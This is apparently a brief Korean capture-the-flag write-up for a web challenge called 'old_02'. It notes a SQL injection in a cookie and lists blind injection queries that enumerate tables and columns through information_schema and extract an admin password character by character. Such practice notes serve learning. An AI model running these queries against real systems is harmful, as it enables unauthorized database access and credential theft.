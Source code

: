 <details>
    <summary>python code</summary>

    from pwn import *

</details>

## old_02





cookie에 여러 값 테스트

sql injection 가능

information_schema 를 이용하여

-테이블 개수 : select count(table_name) from information_schema.tables where table_schema=database()

-테이블 이름 길이 : select length(table_name) from information_schema.tables where table_schema=database() limit 0,1

-테이블 이름: select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 0,1



-컬럼 개수 : select count(column_name) from information_schema.columns where table_name="admin_area_pw"

-컬럼 이름 길이: select length(column_name) from information_schema.columns where table_name="admin_area_pw" limit 0,1

-컬럼 이름 : select ascii(substring(column_name, 1, 1)) from information_schema.columns where table_name="admin_area_pw" limit 0,1

-패스워드

select count(pw) from admin_area_pw

select length(pw) from admin_area_pw limit 0,1

select ascii(substring(pw, 1,1)) from admin_area_pw limit 0,1


